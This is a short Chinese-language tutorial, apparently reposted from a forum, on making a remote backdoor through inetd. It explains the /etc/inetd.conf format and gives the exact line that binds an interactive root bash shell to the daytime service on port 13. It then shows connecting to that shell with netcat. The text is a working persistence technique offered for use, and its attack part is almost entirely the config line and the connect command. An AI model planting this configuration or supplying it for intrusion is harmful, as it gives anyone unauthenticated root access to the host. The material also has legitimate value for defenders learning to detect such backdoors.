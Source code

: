 # inetd 远程后门

> 原文：[https://www.zhihuifly.com/t/topic/3505](https://www.zhihuifly.com/t/topic/3505)

## inetd 远程后门

inetd，也叫作“超级服务器”，就是监视一些网络请求的守护进程，其根据网络请求来调用相应的服务进程来处理连接请求。inetd.conf则是inetd的配置文件。inetd.conf文件告诉inetd监听哪些网络端口，为每个端口启动哪个服务。位置是/etc/inetd.conf 配置格式：[servicename] [socktype] [proto] [flags] [user] [server_path] [args] 在配置文件下写入以下内容。daytime stream tcp nowait root /bin/bash bash -i

daytime服务（13端口） 套接字类型 协议类型 不等待 用户组 提供服务的程序 daytime stream tcp nowait root /bin/bash bash -i

![image](img/6f0009f888e5f0e1616f47ad74f26b97.png)

这样配置好了以后利用nc attip 13

![image](img/a3e72c6e22958f81bba3b676fda99d42.png)